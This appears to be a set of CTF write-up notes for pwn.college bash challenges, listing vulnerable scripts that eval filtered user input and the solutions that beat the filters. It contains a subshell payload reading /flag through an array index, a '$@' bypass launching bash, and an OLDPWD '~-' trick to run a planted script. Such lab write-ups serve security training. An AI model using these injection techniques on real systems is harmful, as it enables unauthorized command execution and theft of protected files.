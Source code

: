 ## Subshell Attack with extra bracket
- `a[\$(</flag))]` (extra ')')

---

# Module 3
## Rhythm of Restriction

```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

PATH=/usr/bin

read INPUT < <(head -n1 | tr -d "[A-Za-z0-9/]")
eval "$INPUT"
```

### Solution
```sh
/challenge/run /bin/bash
$@
```

## Your Misplaced Memories
```sh
#!/usr/bin/env -iS /opt/pwn.college/bash

# This neat trick was generously contributed by WilyWizard!

PATH=/usr/bin

WORKDIR=$(mktemp -d)
[ -n "$WORKDIR" ] || exit 1
cd $WORKDIR

doit() {
	echo -n ""
	read INPUT < <(head -n1 | tr -cd "[\-~]")
	eval "$INPUT"
}

doit
```

### Vulnerability
- Executing user input.

### Solution
- Create a directory, call `/challenge/run`, while `read` is waiting for an input remove the directory and create a vulnerable script with the same name. Feed `~-` to `read`, `eval OLDPWD` is executed which triggers our vulnerable script. 
